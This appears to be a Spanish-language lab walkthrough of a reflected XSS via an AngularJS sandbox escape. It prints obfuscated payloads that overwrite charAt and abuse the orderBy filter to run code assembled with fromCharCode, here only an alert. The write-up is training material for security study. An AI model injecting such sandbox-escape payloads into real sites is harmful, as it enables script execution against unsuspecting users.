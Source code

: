 ![](/img2/Pasted%20image%2020250727170207.png)

> Antes de intentar insertar cualquier payload es necesario revisar la versión de AngularJS.

![](/img2/Pasted%20image%2020250727170556.png)

> Al insertar un nuevo parámetro, se crea una nueva variable 'key'.

![](/img2/Pasted%20image%2020250727170747.png)

```javascript
toString().constructor.prototype.charAt=[].join;
[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

> Con este payload ofuscado y url-encodeado logramos que $parse ejecute esta instrucción.

> El payload se divide en dos partes:
> 1. "Deshabilita" la función 'charAt', la cual es utilizada internamente para evaluar si una carga es maliciosa.
> 2. Aprovecha la función 'orderBy' para ejecutar una carga maliciosa obfuscada.

- Injection

```javascript
testing&toString().constructor.prototype.charAt=[].join;
[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

## Escape de sandbox AngularJS con CSP || Reflected XSS with AngularJS sandbox escape and CSP
